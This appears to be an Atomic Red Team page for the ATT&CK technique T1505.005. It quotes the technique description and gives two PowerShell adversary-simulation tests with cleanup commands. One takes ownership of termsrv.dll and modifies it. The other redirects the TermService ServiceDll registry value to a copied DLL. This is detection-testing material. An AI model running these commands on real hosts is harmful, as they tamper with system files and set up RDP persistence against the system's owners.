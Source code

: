 # T1505.005 - Server Software Component: Terminal Services DLL
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1505/005)
<blockquote>Adversaries may abuse components of Terminal Services to enable persistent access to systems. Microsoft Terminal Services, renamed to Remote Desktop Services in some Windows Server OSs as of 2022, enable remote terminal connections to hosts. Terminal Services allows servers to transmit a full, interactive, graphical user interface to clients via RDP.(Citation: Microsoft Remote Desktop Services)

[Windows Service](https://attack.mitre.org/techniques/T1543/003)s that are run as a "generic" process (ex: <code>svchost.exe</code>) load the service's DLL file, the location of which is stored in a Registry entry named <code>ServiceDll</code>.(Citation: Microsoft System Services Fundamentals) The <code>termsrv.dll</code> file, typically stored in `%SystemRoot%\System32\`, is the default <code>ServiceDll</code> value for Terminal Services in `HKLM\System\CurrentControlSet\services\TermService\Parameters\`.

Adversaries may modify and/or replace the Terminal Services DLL to enable persistent access to victimized hosts.(Citation: James TermServ DLL) Modifications to this DLL could be done to execute arbitrary payloads (while also potentially preserving normal <code>termsrv.dll</code> functionality) as well as to simply enable abusable features of Terminal Services. For example, an adversary may enable features such as concurrent [Remote Desktop Protocol](https://attack.mitre.org/techniques/T1021/001) sessions by either patching the <code>termsrv.dll</code> file or modifying the <code>ServiceDll</code> value to point to a DLL that provides increased RDP functionality.(Citation: Windows OS Hub RDP)(Citation: RDPWrap Github) On a non-server Windows OS this increased functionality may also enable an adversary to avoid Terminal Services prompts that warn/log out users of a system when a new RDP session is created.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Simulate Patching termsrv.dll](#atomic-test-1---simulate-patching-termsrvdll)

- [Atomic Test #2 - Modify Terminal Services DLL Path](#atomic-test-2---modify-terminal-services-dll-path)


<br/>

## Atomic Test #1 - Simulate Patching termsrv.dll
Simulates patching of termsrv.dll by making a benign change to the file and replacing it with the original afterwards.
Before we can make the modifications we need to take ownership of the file and grant ourselves the necessary permissions.

**Supported Platforms:** Windows


**auto_generated_guid:** 0b2eadeb-4a64-4449-9d43-3d999f4a317b






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$termsrvDll = "C:\Windows\System32\termsrv.dll"

$ACL = Get-Acl $termsrvDll
$permission = "Administrators","FullControl","Allow"
$accessRule = New-Object System.Security.AccessControl.FileSystemAccessRule $permission
$ACL.SetAccessRule($accessRule)
Set-Acl -Path $termsrvDll -AclObject $ACL

Copy-Item -Path "C:\Windows\System32\termsrv.dll" -Destination "C:\Windows\System32\termsrv_backup.dll" -ErrorAction Ignore
Add-Content -Path "C:\Windows\System32\termsrv.dll" -Value "`n" -NoNewline -ErrorAction Ignore
Move-Item -Path "C:\Windows\System32\termsrv_backup.dll" -Destination "C:\Windows\System32\termsrv.dll" -Force -ErrorAction Ignore
```

#### Cleanup Commands:
```powershell
Move-Item -Path "C:\Windows\System32\termsrv_backup.dll" -Destination "C:\Windows\System32\termsrv.dll" -Force -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #2 - Modify Terminal Services DLL Path
This atomic test simulates the modification of the ServiceDll value in HKLM\System\CurrentControlSet\services\TermService\Parameters. This technique may be leveraged by adversaries to establish persistence by loading a patched version of the DLL containing malicious code.

**Supported Platforms:** Windows


**auto_generated_guid:** 18136e38-0530-49b2-b309-eed173787471






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$termsrvDll = "C:\Windows\System32\termsrv.dll"

$ACL = Get-Acl $termsrvDll
$permission = "Administrators","FullControl","Allow"
$accessRule = New-Object System.Security.AccessControl.FileSystemAccessRule $permission
$ACL.SetAccessRule($accessRule)
Set-Acl -Path $termsrvDll -AclObject $ACL

Copy-Item -Path $termsrvDll -Destination "$HOME\AtomicTest.dll"

$newServiceDll = "$HOME\AtomicTest.dll"

$registryPath = "HKLM:\System\CurrentControlSet\services\TermService\Parameters"

# Check if the registry key exists
if (Test-Path -Path $registryPath) {
    # Modify the ServiceDll value in the registry
    Set-ItemProperty -Path $registryPath -Name "ServiceDll" -Value $newServiceDll
    Write-Host "ServiceDll value in the registry has been updated to: $newServiceDll"
} else {
    Write-Host "Registry key not found. Make sure the 'TermService\Parameters' key exists."
}
```

#### Cleanup Commands:
```powershell
Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\services\TermService\Parameters" -Name "ServiceDll" -Value "C:\Windows\System32\termsrv.dll"
```





<br/>
